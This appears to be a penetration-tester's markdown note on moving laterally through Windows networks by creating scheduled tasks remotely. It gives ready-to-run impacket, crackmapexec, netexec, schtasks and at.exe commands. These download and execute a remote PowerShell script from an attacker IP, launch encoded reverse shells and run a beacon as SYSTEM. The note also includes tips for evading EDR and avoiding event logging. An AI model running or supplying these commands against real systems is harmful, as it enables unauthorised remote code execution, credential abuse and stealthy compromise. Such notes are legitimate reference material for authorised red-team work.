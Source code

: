 ```yaml
---
title: Lateral Movement with Scheduled Tasks
---
```


[[notes/lateral-movement/index]] by using the [MS-TSCH](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/) protocol to create or update scheduled tasks and execute commands in system context.

Create a scheduled task over a named pipe on SMB to execute a reverse shell.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-atexec -k -no-pass -silentcommand srv01.corp.local 'powershell.exe -ep bypass -c iex(irm 192.168.80.185/one.ps1)'
    impacket-atexec -k -no-pass -silentcommand srv01.corp.local "powershell.exe -ep bypass -e $(iconv -t utf16le ./shell.ps1 | base64 -w0)"
    ~~~

    **OpSec:**
    The command is executed with `cmd.exe`, the output is written to a file and downloaded over SMB.
    This can be avoided by specifying `-nooutput`.

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb srv01.corp.local -u jdoe -p 'passw0rd' --no-output --exec-method atexec -x "powershell.exe -ep bypass -e $(iconv -t utf16le ./shell.ps1 | base64 -w0)"
    ~~~

    **OpSec:** Many EDRs detecte the use of `-X`.

=== "schtasks"
    ~~~ bat
    schtasks.exe /s srv01.corp.local /create /tn "Background Task 72" /tr "c:\windows\temp\beacon.exe" /ru "NT Authority\SYSTEM" /sc once /st 12:00
    schtasks.exe /s srv01.corp.local /run /tn "Background Task 72"
    schtasks.exe /s srv01.corp.local /delete /tn "Background Task 72" /f
    ~~~

=== "at"
    Start a reverse shell at 14:00.

    ~~~ bat
    at.exe \\srv01.corp.local 14:00 "powershell.exe -ep bypass -e %payload%"
    ~~~

    Cleanup.

    ~~~ bat
    at.exe \\srv01.corp.local
    at.exe \\srv01.corp.local %id% /delete /yes
    ~~~

> **OpSec:**
> To avoid detections modify the command of an existing task or overwrite the binary of an existing task.

Execute a command in the context of a logged-in user ([source](https://github.com/Pennyw0rth/NetExec/pull/54)).

=== "[[notes/tools/netexec]]"
    ~~~ bash
    netexec smb srv01.corp.local --local-auth -u administrator -p 'passw0rd' -M schtask -o CMD='whoami' USER='corp.local\jdoeadm'
    ~~~

Untested tools:

- [SharpGhostTask](https://github.com/dmcxblue/SharpGhostTask)
- [GhostTask](https://github.com/netero1010/GhostTask), create scheduled task trough direct registry interaction, no event generated
- [TaskShell](https://github.com/RiccardoAncarani/TaskShell), modifies the command of a scheduled task

References:

- [Scheduled task tampering](http://web.archive.org/web/20221111232306/https://labs.withsecure.com/publications/scheduled-task-tampering), as the machine account create a scheduled task without logging events by directly writing registry keys
